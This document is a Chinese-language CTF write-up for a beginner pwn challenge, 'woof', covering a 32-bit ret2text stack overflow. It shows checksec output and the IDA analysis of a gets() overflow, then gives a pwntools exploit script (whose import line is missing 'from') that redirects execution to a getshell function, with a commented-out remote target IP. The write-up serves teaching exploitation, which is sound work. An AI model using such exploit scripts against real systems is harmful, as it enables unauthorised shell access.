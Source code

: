 ```yaml
---
title: 基础栈溢出ret2text 已有提权函数
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 32位寄存器4个字节，函数传参只使用栈

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码
![alt text](/images/image.png)

可以看到main函数的流程，值得注意的是 dog函数


![alt text](/images/image-1.png)
很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组

![alt text](/images/image-2.png)

要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数
![alt text](/images/image-3.png)
![alt text](/images/image-4.png)

存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *
context(os="linux", arch='i386')
io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell